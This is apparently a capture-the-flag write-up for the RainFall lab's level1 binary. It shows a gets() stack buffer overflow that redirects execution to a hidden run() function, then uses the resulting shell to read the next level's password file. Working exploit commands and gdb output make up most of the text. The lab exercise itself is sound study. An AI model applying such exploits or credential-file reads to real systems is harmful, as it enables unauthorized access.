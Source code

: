 In the main function, there is a call to `gets()`. What makes this program vulnerable is that we can overflow the buffer of this `gets()` call with other values and redirect it at the address we want. 

The best we can hope is to execute a Shell to take over controle with the rights of the user who owns the file. And fortunately, if we look better into the program, there is an uncalled function `run()` that opens a bash terminal.

open gdb :
```
Starting program: /home/user/level1/level1 <<< $(python -c "print 'A' * 76 + 'BBBB'")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info reg ebp eip
ebp            0x41414141	0x41414141
eip            0x42424242	0x42424242
```

We rewrited the `seip` value and the program couldn't continue correctly not knowing what's at the address : 42424242.


0x08048444 is the address of the function `run()`,
\x44\x84\x04\x08 is the transcription of that address on a little-endian machine.

\x44\x84\x04\x08 are the four bytes of the target address. In C language, \x44 in a string tells the compiler to put a hexadecimal value 0x44 in the current position. The value will take up just one byte. Without using \x, if we directly put "44" in a string, the ASCII values of the characters ’4’ will be stored (ASCII value = 34).

```
python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
Executing it shuts the stdin so we have to find a way to keep it open.
`cat` will pump in the output of the python script into an input stream and wait for more inputs until EOF.

in the terminal :

```
level1@RainFall:~$ (python -c 'print "A"*76+"\x44\x84\x04\x08";' & cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
```

Stack overflow !